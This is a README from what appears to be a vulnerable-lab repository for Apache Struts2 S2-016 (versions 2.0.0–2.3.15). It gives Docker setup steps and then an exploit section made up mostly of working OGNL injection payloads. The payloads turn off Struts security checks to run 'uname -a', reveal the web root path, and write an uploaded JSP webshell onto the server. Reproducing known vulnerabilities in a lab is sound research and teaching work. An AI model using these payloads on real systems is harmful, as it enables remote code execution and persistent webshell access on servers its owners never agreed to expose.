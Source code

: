 # S2-016 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.3.15

Details:

 - http://struts.apache.org/docs/s2-016.html
 - http://www.freebuf.com/articles/web/25337.html

## Setup

```
docker compose build
docker compose up -d
```

## Exploit

Visit `http://your-ip:8080/index.action?redirect:OGNL expression` to execute an OGNL expression.

Execute `uname -a`:

```
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}
```

Get web directory:

```
redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#ot=#resp.getWriter (),#ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext().getRealPath('/')),#ot.flush(),#ot.close()}
```

Get webshell：

```
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletRequest"),#b=new java.io.FileOutputStream(new java.lang.StringBuilder(#a.getRealPath("/")).append(@java.io.File@separator).append("1.jspx").toString()),#b.write(#a.getParameter("t").getBytes()),#b.close(),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println("BINGO"),#genxor.flush(),#genxor.close()}
```

Result:

![](01.png)
